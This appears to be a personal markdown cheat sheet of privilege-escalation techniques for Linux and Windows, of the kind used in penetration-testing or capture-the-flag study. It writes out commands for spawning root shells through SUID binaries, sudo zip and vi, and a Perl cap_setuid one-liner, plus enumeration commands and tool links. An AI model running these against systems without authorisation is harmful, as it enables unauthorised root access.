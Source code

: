 # Privilege Escalation

### Linux

***

* `sudo -l` to see what sudo can do
  * gtfobins.github.io
* get suid binaries: `find / -perm -u=s -type f 2>/dev/null`
* launching shell from suid binary, use `exec /bin/sh -p` to keep effective uid from being reset
  * in the case of one machine, there was a binary `.suid_bash`, the command `./.suid_bash -p` gave a root shell
* linenum, lse, linpeas
* weird zip command if for some reason you have sudo zip privs: `sudo zip test.zip test.txt -T --unzip-command="sh -c /bin/bash"` -T tests the integrity of the zip, then --unzip-command specifies the command to unzip the file, so it uses that in the integrity check
* check sudo environment variables
* from sudo vi - `:!sh` to launch shell
* check ports for nfs `rpcinfo -p`
* checking strings in files
  * `strings [file]`
    * try `-e l` also
* cap\_setuid+ep
  * `executable` -e 'usr POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
* mount share:
  * `mkdir [name] $IP`
  * \`curlftpfs anonymous@$IP \[name]

### Windows

***

* [http://fuzzysecurity.com/tutorials/16.html](http://fuzzysecurity.com/tutorials/16.html)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* `net localgroup administrators`
* `net user [username]` for groups user belongs to
* jaws enumeration
  * download from windows host
